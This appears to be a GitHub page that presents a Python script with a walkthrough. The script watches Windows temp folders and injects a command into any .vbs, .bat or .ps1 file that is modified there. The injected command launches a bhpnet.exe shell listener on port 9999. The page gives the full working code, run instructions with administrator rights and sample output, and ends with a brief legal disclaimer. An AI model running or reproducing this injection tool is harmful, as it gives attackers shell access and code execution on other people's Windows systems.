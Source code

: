 This script is designed to monitor specific directories (e.g., Windows Temp directories) for file creation, modification, deletion, or renaming. When a specific type of file (e.g., `.vbs`, `.bat`, or `.ps1`) is modified, the script injects additional code into the file. The injected code runs a command (`bhpnet.exe`) that opens a reverse shell connection to a specified port. 


```python
import tempfile
import threading
import win32file
import win32con
import os

# common temp file directories
dirs_to_monitor = ["C:\\WINDOWS\\Temp", tempfile.gettempdir()]

# file modification constants
FILE_CREATED = 1
FILE_DELETED = 2
FILE_MODIFIED = 3 
FILE_RENAMED_FROM = 4
FILE_RENAMED_TO = 5

# extension based code snippets to inject
file_types = {}
command = "C:\\WINDOWS\\TEMP\\bhpnet.exe -l -p 9999 -c"
file_types[".vbs"] = ["\r\n'bhpmarker\r\n", "\r\nCreateObject(\"Wscript.Shell\").Run(\"%s\")\r\n" % command]
file_types[".bat"] = ["\r\nREM bhpmarker\r\n", "\r\n%s\r\n" % command]
file_types[".ps1"] = ["\r\n#bhpmarker", "Start-Process \"%s\"" % command]

def inject_code(full_filename, extension, contents):
    # check if our marker is already in the file
    if file_types[extension][0] in contents:
        return
    
    # if not, let's inject marker and code
    full_contents = file_types[extension][0]
    full_contents += file_types[extension][1]
    full_contents += contents
    
    with open(full_filename, "wb") as fd:
        fd.write(full_contents.encode())
        
    print("[\o/] Injected code")
    
    return

def start_monitor(path_to_watch):
    # create a thread for each monitoring run
    file_list_directory = 0x0001
    
    h_directory = win32file.CreateFile(
        path_to_watch,
        file_list_directory,
        win32con.FILE_SHARE_READ
        | win32con.FILE_SHARE_WRITE
        | win32con.FILE_SHARE_DELETE,
        None,
        win32con.OPEN_EXISTING,
        win32con.FILE_FLAG_BACKUP_SEMANTICS,
        None)
    
    while True:
        try:
            results = win32file.ReadDirectoryChangesW(h_directory, 1024, True,
                                                      win32con.FILE_NOTIFY_CHANGE_FILE_NAME,
                                                      win32con.FILE_NOTIFY_CHANGE_DIR_NAME,
                                                      win32con.FILE_NOTIFY_CHANGE_ATTRIBUTES,
                                                      win32con.FILE_NOTIFY_CHANGE_SIZE,
                                                      win32con.FILE_NOTIFY_CHANGE_LAST_WRITE,
                                                      win32con.FILE_NOTIFY_CHANGE_SECURITY,
                                                      None, None)
            
            for action, file_name in results:
                full_filename = os.path.join(path_to_watch, file_name)
                
                if action == FILE_CREATED:
                    print(f"[+] Created {full_filename}")
                elif action == FILE_DELETED:
                    print(f"[-] Deleted {full_filename}")
                elif action == FILE_MODIFIED:
                    print(f"[*] Modified {full_filename}")

                    # dump the file contents
                    print("[vvv] Dumping contents...")
                    
                    try:
                        with open(full_filename, "rb") as fd:
                            contents = fd.read()
                        print(contents)
                        print("[^^^] Dump completed")
                        filename, extension = os.path.splitext(full_filename)
                        if extension in file_types:
                            inject_code(full_filename, extension, contents)
                    except Exception as e:
                        print(f"[!!!] Failed! Error: {e}")
                        
                elif action == FILE_RENAMED_FROM:
                    print(f"[ > ] Renamed from {full_filename}")
                elif action == FILE_RENAMED_TO:
                    print(f"[ < ] Renamed to: {full_filename}")
                else:
                    print(f"[???] Unknown: {full_filename}")
        
        except:
            pass  
        
for path in dirs_to_monitor:
    monitor_thread = threading.Thread(target=start_monitor, args=(path,))
    print(f"Spawing monitoring thread for path: {path}")
    monitor_thread.start()
```


### Code Explanation

Here's a breakdown of the key components of the script:

### Key Variables:
1. **`dirs_to_monitor`**:
   - List of directories to monitor for file changes (e.g., `C:\\WINDOWS\\Temp`, the default temp directory).
   
2. **File Modification Constants**:
   - Constants that define the types of file modifications (created, deleted, modified, renamed).

3. **`file_types`**:
   - A dictionary that maps file extensions (`.vbs`, `.bat`, `.ps1`) to the code snippet that will be injected into those files when modified.

4. **`command`**:
   - The command that will be injected into the files. It specifies running a reverse shell listener (`bhpnet.exe`) on port `9999`.

### Key Functions:
1. **`inject_code(full_filename, extension, contents)`**:
   - Checks if the file already contains a marker (e.g., `bhpmarker`), and if not, it appends the marker and the command to run `bhpnet.exe`.
   - Writes the modified content back to the file.

2. **`start_monitor(path_to_watch)`**:
   - Monitors a given directory for file changes using the `win32file.ReadDirectoryChangesW()` function.
   - Listens for changes in file name, attributes, size, or write time.
   - For modified files, the script reads and prints the contents. If the file is one of the target types (e.g., `.vbs`, `.bat`, `.ps1`), it calls the `inject_code` function to inject the reverse shell code into the file.

### Multi-threading:
- The script starts a separate monitoring thread for each directory listed in `dirs_to_monitor`.
- Each thread runs `start_monitor()`, allowing the directories to be monitored simultaneously.

### How It Works:
- When a file is modified (e.g., `.vbs`, `.bat`, `.ps1`), the script checks the file's contents.
- If the file contains the appropriate extension, the script injects the reverse shell command into the file.
- The injected code will execute the specified command (`bhpnet.exe`), establishing a reverse shell connection.

### How to Run:

1. **Install Required Libraries**:
   This script relies on the `pywin32` package, which provides access to Windows APIs:
   ```bash
   pip install pywin32
   ```

2. **Permissions**:
   - The script may require administrator privileges to monitor directories like `C:\\WINDOWS\\Temp` and to modify files in those directories.
   - Running with elevated privileges ensures it can access the necessary files.

3. **Running the Script**:
   - Save the script as `file_monitor.py`.
   - Open Command Prompt or PowerShell with administrator rights.
   - Run the script:
     ```bash
     python file_monitor.py
     ```

4. **Monitoring the Output**:
   - The script will print messages when files are created, deleted, or modified.
   - If a file of the specified types (`.vbs`, `.bat`, `.ps1`) is modified, the script will inject the reverse shell code and print a message indicating that code injection was successful.

### Example Output:
When a file is modified:
```
[*] Modified C:\WINDOWS\Temp\example.vbs
[vvv] Dumping contents...
b'...original file contents...'
[^^^] Dump completed
[\o/] Injected code
```

When a file is created:
```
[+] Created C:\WINDOWS\Temp\example.bat
```

When a file is deleted:
```
[-] Deleted C:\WINDOWS\Temp\example.ps1
```

### Important Considerations:
- **Malicious Intent**: This script appears to be designed for malicious purposes (i.e., injecting reverse shell code). It should not be used for any unauthorized or harmful activities.
- **Legal and Ethical Concerns**: Unauthorized file modification or tampering with system files is illegal and unethical. This code should only be used in controlled, legal environments such as security testing within an organization's boundaries with proper authorization.

**Ensure you have explicit consent to run this kind of script in any environment.**
